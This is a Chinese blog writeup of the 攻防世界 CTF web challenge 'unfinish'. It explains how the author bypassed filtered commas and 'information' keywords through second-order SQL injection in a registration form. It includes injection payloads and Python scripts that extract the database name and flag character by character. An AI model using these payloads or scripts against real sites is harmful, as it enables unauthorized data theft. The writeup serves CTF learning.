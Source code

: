 <!--yml
category: 未分类
date: 2022-04-26 14:51:58
-->

# 攻防世界-web-unfinish-从0到1的解题历程writeup_CTF小白的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41429081/article/details/105600568](https://blog.csdn.net/qq_41429081/article/details/105600568)

## 题目分析

题目描述为：SQL

题目主要功能界面分析：

主要分为注册、登陆、以及成功登陆后的一个界面。

通过描述可以知道题目应该存在SQL注入漏洞。

![图片](img/3f7a0b4f816b32c7b7a3223c539ee19f.png)

扫描得知注册界面存在SQL注入漏洞

尝试构造sql盲注语句如下

```
{'username': "1' and ELT(left((SELECT schema_name FROM information_schema.schemata limit 0,1),1)='d',SLEEP(5)) or '1'='1", 'password': 'admin', 'email': 'eamil@eamil.com'} 
```

得到结果为

![图片](img/948a8c89df4dd753ae87b54a1037cc31.png)

即存在过滤

测试发现过滤了逗号、information

那么使用盲注应该不太行了，但是username这边的内容是可以执行，所以我们将username的值拼接上查找出来的内容，利用登陆后会显示用户名做到一个二次注入的效果。

## 解题流程

首先可知注册的sql语句应该为

```
insert into tables values('$email','$username','$password') 
```

我们通过控制post的参数

构造sql语句为：

```
insert into tables values('admin1@admin.com','0'+ascii(substr((select database()) from 1 for 1))+'0','admin') 
```

即插入的username即拼接上了我们要查找的

查数据库脚本如下

```
import requests
import time
from bs4 import BeautifulSoup       

def getDatabase():
    database = ''
    for i in range(10):
        data_database = {
            'username':"0'+ascii(substr((select database()) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin11@admin.com"+str(i)
        }

        requests.post("http://159.138.137.79:52974/register.php",data_database)
        login_data={
            'password':'admin',
            "email":"admin11@admin.com"+str(i)
        }
        response=requests.post("http://159.138.137.79:52974/login.php",login_data)
        html=response.text                  
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]
        username=getUsername.text
        if int(username)==0:
            break
        database+=chr(int(username))
    return database

print(getDatabase()) 
```

得到数据库名为web

然后尝试获取表名失败，因为过滤了information

看了评论说表名全靠猜哈哈

![图片](img/af517b1c9195efb6c05f6b80d6675831.png)

还是给上一个获取flag的脚本

脚本中途获取表名失败了，被我注释了~~emmm

```
import requests
import time
from bs4 import BeautifulSoup       

def getDatabase():
    database = ''
    for i in range(10):
        data_database = {
            'username':"0'+ascii(substr((select database()) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin11@admin.com"+str(i)
        }

        requests.post("http://159.138.137.79:52974/register.php",data_database)
        login_data={
            'password':'admin',
            "email":"admin11@admin.com"+str(i)
        }
        response=requests.post("http://159.138.137.79:52974/login.php",login_data)
        html=response.text                  
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]
        username=getUsername.text
        if int(username)==0:
            break
        database+=chr(int(username))
    return database

print(getDatabase())

def getTables():
    tables = ''
    for i in range(10):
        data_tables = {
            'username':"0'+ascii(substr((select tables()) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin12@admin.com"+str(i)
        }

        requests.post("http://159.138.137.79:52974/register.php",data_tables)
        login_data={
            'password':'admin',
            "email":"admin12@admin.com"+str(i)
        }
        response=requests.post("http://159.138.137.79:52974/login.php",login_data)
        html=response.text                  
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]
        username=getUsername.text
        if int(username)==0:
            break
        tables+=chr(int(username))
    return tables
'''
print(getTables())
'''

def getFlag():
    flag = ''
    for i in range(40):
        data_flag = {
            'username':"0'+ascii(substr((select * from flag) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }

        requests.post("http://159.138.137.79:52974/register.php",data_flag)
        login_data={
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        response=requests.post("http://159.138.137.79:52974/login.php",login_data)
        html=response.text                  
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]
        username=getUsername.text
        if int(username)==0:
            break
        flag+=chr(int(username))
    return flag

print(getFlag()) 
```

![图片](img/1d0bfc4e8759f4c9f046a0857dd72271.png)